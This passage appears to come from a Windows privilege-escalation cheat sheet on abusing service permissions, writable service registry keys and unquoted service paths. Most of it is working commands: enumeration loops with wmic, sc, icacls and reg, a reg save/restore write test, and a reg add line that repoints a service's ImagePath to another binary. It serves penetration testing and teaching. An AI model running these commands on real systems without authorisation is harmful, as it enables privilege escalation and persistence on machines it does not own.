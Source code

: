 GENERIC_ALL: Inherits SERVICE_CHANGE_CONFIG
To detect and exploit this vulnerability you can use exploit/windows/local/service_permissions

Check if you can modify the binary that is executed by a service.
You can get every binary that is executed by a service using wmic (not in system32) and check your permissions using icacls:
```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```
You can also use sc and icacls:
```
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```
### Services registry permissions (*move to privilege escalation/persistence pages*)
You should check if you can modify any service registry. You can check your permissions over a service registry doing:
```
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```
Check if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl. In that case you can change the binary that is going to be executed by the service.
To change the Path of the binary executed:
`reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f`

### Unquoted Service Paths (*move to privilege escalation/persistence pages*)
If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.
For example, for the path C:\Program Files\Some Folder\Service.exe Windows will try to execute:
```
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```
To list all unquoted service paths (minus built-in Windows services)
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services
```
-or-
```
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
```